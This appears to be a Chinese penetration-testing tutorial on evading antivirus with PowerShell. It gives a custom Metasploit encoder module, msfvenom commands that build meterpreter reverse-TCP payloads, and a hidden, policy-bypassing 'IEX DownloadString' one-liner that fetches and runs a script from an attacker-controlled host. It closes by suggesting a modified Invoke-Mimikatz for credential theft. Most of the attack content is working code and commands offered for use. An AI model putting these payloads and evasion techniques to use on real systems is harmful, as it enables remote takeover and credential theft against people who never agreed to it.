




**知识点介绍：**

Windows PowerShell是以.NET Framework技术为基础，并且与现有的WSH保持向后兼容，因此它的脚本程序不仅能访问.NET CLR，也能使用现有的COM技术。同时也包含了数种系统管理工具、简易且一致的语法，提升管理者处理，常见如登录数据库、WMI。Exchange Server 2007以及System Center Operations Manager 2007等服务器软件都将内置Windows PowerShell。Windows PowerShell的强大，并且内置，在渗透过程中，也让渗透变得更加有趣。而安全软件的对抗查杀也逐渐开始针对powershell的一切行为。在 https://technet.microsoft.com，看到文档如下：

>   Here is a listing of the available startup parameters:
-Command Specifies the command text to execute as though it were typed at the PowerShell command prompt.
-EncodedCommand Specifies the base64-encoded command text to execute.
-ExecutionPolicy Sets the default execution policy for the console session.
-File Sets the name of a script file to execute.
-InputFormat Sets the format for data sent to PowerShell as either text string or serialized XML. The default format is XML. Valid values are text and XML.
-NoExit Does not exit after running startup commands. This parameter is useful when you run PowerShell commands or scripts via the command prompt(cmd.exe).
-NoLogo Starts the PowerShell console without displaying the copyright banner.
-Noninteractive Starts the PowerShell console in non-interactive mode. In this mode, PowerShell does not present an interactive prompt to the user.
-NoProfile Tells the PowerShell console not to load the current user’s profile.
-OutputFormat Sets the format for output as either text string or serialized XML. The default format is text. Valid values are text and XML.
-PSConsoleFile Loads the specified Windows PowerShell console file. Console files end with the .psc1 extension and can be used to ensure that specific snap-in extensions are loaded and available. You can create a console file using Export-Console in Windows PowerShell.
-Sta Starts PowerShell in single-threaded mode.
-Version Sets the version of Windows PowerShell to use for compatibility,such as 1.0.
-WindowStyle Sets the window style as Normal, Minimized, Maximized, or Hidden. The default is Normal.

针对它的特性，本地测试：
> Add-Type -AssemblyName PresentationFramework;
>[System.Windows.MessageBox]::Show('Micropoor')


上文所说，越来越多的杀软开始对抗，powershell的部分行为，或者特征。以msfvenom为例，生成payload。  


micropoor.ps1不幸被杀。  


针对powershell特性，更改payload  




接下来考虑的事情是如何把以上重复的工作变成自动化，并且针对powershell，DownloadString特性，设计出2种payload形式：  
（1）目标机出网  
（2）目标机不出网

并且根据需求，无缝连接Metasploit。

根据微软文档，可以找到可能对以上有帮助的属性，分别为：  
* Window  
* Style  
* NoExit EncodedCommand  
* exec

自动化实现如下：
```ruby
# copy base64.rb to metasploit-framework/embedded/framework/modules/encoders/powershell.If powershell is empty,mkdir powershell.
# E.g
# msf encoder(powershell/base64) > use exploit/multi/handler
# msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
# payload => windows/x64/meterpreter/reverse_tcp
# msf exploit(multi/handler) > exploit
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx -f psh-reflection --arch x64 --platform windows | msfvenom -e powershell/base64 --arch x64 --platform windows.
# [*] Started reverse TCP handler on xx.1xx.xx.xx:xx

class MetasploitModule < Msf::Encoder
    Rank = NormalRanking

def initialize
    super(
    'Name' => 'Powershell Base64 Encoder',
    'Description' => %q{
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx
-f psh-reflection --arch x64 --platform windows | msfvenom -e
powershell/base64 --arch x64 --platform windows.
    },
    'Author' => 'Micropoor',
    'Arch' => ARCH_CMD,
    'Platform' => 'win')

register_options([
OptBool.new('payload', [ false, 'Use payload ', false ]), 
OptBool.new('x64',[ false, 'Use syswow64 powershell', false ])
])

end

def encode_block(state, buf)
base64 = Rex::Text.encode_base64(Rex::Text.to_unicode(buf)) 
cmd = ''
if datastore['x64']
    cmd += 'c:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe '
else
    cmd += 'powershell.exe ' 
end
if datastore['payload']
    cmd += '-windowstyle hidden -exec bypass -NoExit ' 
end
cmd += "-EncodedCommand \#{base64}" 
end
end

# if use caidao
# execute echo powershell -windowstyle hidden -exec bypass -c \""IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.117/xxx.ps1');\""|msfvenom -e x64/xor4 --arch x64 --platform windows
# xxx.ps1 is msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx -f psh-reflection --arch x64 --platform windows | msfvenom -e powershell/base64 --arch x64 --platform windows.
```

>copy powershell_base64.rb to metasploit‐framework/embedded/framework/modules/encoders/powershell.If powershell is empty,mkdir powershell.

参数 payload 选择是否使用 Metasploit payload，来去掉 powershell 的关键字。

例1（目标出网，下载执行）：

```bash
echo powershell ‐windowstyle hidden ‐exec bypass ‐c \""IEX (New‐ObjectNet.WebClient).DownloadString('http://192.168.1.117/micropoor.ps1');\""|msfvenom ‐e powershell/base64 ‐‐arch x64 ‐‐platform windows
```

  


例2（目标不出网，本地执行）  


### 注：加payload参数

```bash
msfvenom ‐p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.117 LPORT=8080 ‐f psh‐reflection ‐‐arch x64 ‐‐platform windows | msfvenom ‐e powershell/base64 ‐‐arch x64 ‐‐platform windows payload
```

更多有趣的实验：

把例1的 down 内容更改为例2，并且去掉 payload 参数。来减小 payload 大小。

更改 Invoke-Mimikatz.ps1 等。



>   Micropoor
